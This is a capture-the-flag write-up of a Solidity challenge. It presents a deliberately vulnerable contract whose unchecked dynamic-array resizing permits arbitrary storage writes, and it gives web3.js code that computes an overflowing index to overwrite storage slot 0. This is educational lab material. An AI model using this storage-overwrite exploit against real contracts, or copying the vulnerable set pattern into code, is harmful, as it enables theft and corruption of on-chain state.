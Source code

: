 # 12. Mapping

Who needs mappings? I’ve created a contract that can store key/value pairs using just an array.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;

    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }

        map[key] = value;
    }

    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```

## Vulnerability

Never write a function similar to `set`. It's a huge liability risk, as you will see such badly written code allows any attacker to overwrite any storage slot as long as you are aware of how storage arrays work. For this challenge, we need to overwrite storage slot 0 to make `isComplete` equal to `true`.

So let's explain that first : storage slot 0 holds an 8 bit boolean value alongside 248 unused bits, storage slot 1 holds the size of the `map` array. Following this logic one might think that the `map` elements are stored at slot 2, 3, etc.. but that is not how it works. In solidity, storage arrays elements are stored sequentially starting from slot `keccak256(slot_of_array_size)`. In our case that is : `keccak256(1)`.

It turns out that this value is : `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

We can make sure of that by 1) reading that storage slot. 2) Writing to `map[0]` through the `set` function. 3) reading that storage slot again :

1 ) Reading storage slot :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const storageSlot = web3.utils.soliditySha3({ t: "uint256", v: "1" });
const storageSlotvalue = await web3.eth.getStorageAt(challengeContract,storageSlot);

console.log(storageSlotvalue);
// 0x0000000000000000000000000000000000000000000000000000000000000000
```

2 ) Writing `1` to `map[0]` :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "set",
    type: "function",
    inputs: [
      { type: "uint256", name: "key" },
      { type: "uint256", name: "value" },
    ],
  },
  [0, 1]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

3 ) Reading storage slot :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const storageSlot = web3.utils.soliditySha3({ t: "uint256", v: "1" });
const storageSlotvalue = await web3.eth.getStorageAt(challengeContract,storageSlot);

console.log(storageSlotvalue);
// 0x0000000000000000000000000000000000000000000000000000000000000001
```

Alright, so now that we understand how to take advantage of that vulnerability let's use it to solve the challenge. We must write to storage slot 0 and we know that `map[0]` is at storage slot `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`, since the index is of type `uint256` we need to provide an index that will be stored to storage slot 0, meaning that we must find the number `x` where ``0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + x == 2^256`. Given that a `uint256` can only store values up to `2^256 - 1` , reaching `2^256` overflows and loop backs to 0 which is exactly what we want.

We can find `x` quite easily with :

```js
const storageSlot = new web3.utils.BN(
  "b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6",
  16
); // slot of map[0]
const overflowBound = new web3.utils.BN(
  "10000000000000000000000000000000000000000000000000000000000000000",
  16
); // 2 ^ 256
const x = overflowBound.sub(storageSlot);

console.log(web3.utils.numberToHex(x));
// 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```

Now that we have our index, all we need is to make `isComplete` equal `true` at storage slot 0. Thus, we need to write `0x0000000000000000000000000000000000000000000000000000000000000001` to `map[0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a]` :

```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const index = "0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a";
const value = "0x0000000000000000000000000000000000000000000000000000000000000001";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "set",
    type: "function",
    inputs: [
      { type: "uint256", name: "key" },
      { type: "uint256", name: "value" },
    ],
  },
  [index, value]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

You can submit the challenge now !